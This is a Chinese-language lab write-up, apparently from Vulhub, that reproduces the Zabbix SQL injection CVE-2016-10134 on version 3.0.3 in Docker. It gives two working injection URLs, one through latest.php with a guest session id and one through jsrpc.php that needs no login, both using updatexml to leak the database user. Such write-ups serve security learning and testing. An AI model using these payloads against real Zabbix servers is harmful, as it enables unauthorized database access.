



Zabbix latest.php SQL注入漏洞 CVE-2016-10134¶
漏洞描述¶
zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。
环境搭建¶
Vulhub执行如下命令启动zabbix 3.0.3：
docker-compose up -d
执行命令后，将启动数据库（mysql）、zabbix server、zabbix agent、zabbix web。如果内存稍小，可能会存在某个容器挂掉的情况，我们可以通过docker-compose ps查看容器状态，并通过docker-compose start来重新启动容器。
漏洞复现¶
访问http://your-ip:8080/index.php，用账号guest（密码为空）登录游客账户。
登录后，查看Cookie中的zbx_sessionid，复制后16位字符：
zbx_sessionid=cb4f5e3307ffbca669d1a14be14dc1e0

将这16个字符作为sid的值，访问http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)，可见成功注入：

这个漏洞也可以通过jsrpc.php触发，且无需登录：http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)：
